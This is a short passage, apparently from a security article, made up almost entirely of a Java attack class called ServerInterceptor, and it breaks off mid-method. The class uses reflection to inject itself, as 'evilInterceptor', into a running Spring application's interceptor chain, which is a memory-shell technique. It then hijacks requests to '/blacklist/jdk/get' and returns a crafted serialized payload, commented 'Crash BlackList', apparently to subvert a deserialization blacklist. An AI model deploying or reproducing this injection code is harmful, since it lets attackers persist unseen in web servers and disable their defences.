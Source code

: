 ```java
}
```

ServerInterceptor👇

```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class ServerInterceptor implements HandlerInterceptor {
    public static int nums = 1;

    static {
        System.out.println("injection start");
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        ServerInterceptor evilInterceptor = new ServerInterceptor();
        adaptInterceptors.add(evilInterceptor);
        System.out.println("injection end");
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String code;
        if (nums % 2 == 0) {
            // Server Attack
            code = "{\"code\":\"200\",\"message\":" +
                    "\"\"}";
        } else {
            // Crash BlackList
            code = "{\"code\":\"200\",\"message\":" +
                    "\"rO0ABXNyABNqYXZhLnV0aWwuQXJyYXlMaXN0eIHSHZnHYZ0DAAFJAARzaXpleHAAAAABdwQAAAABdAAHbm90aGluZ3g=\"}";
        }
        if (request.getRequestURI().equals("/blacklist/jdk/get")) {
            String result = new Scanner(code).useDelimiter("\\A").next();
            response.addHeader("Content-Type", "application/json;charset=UTF-8");
            response.getWriter().write(result);
```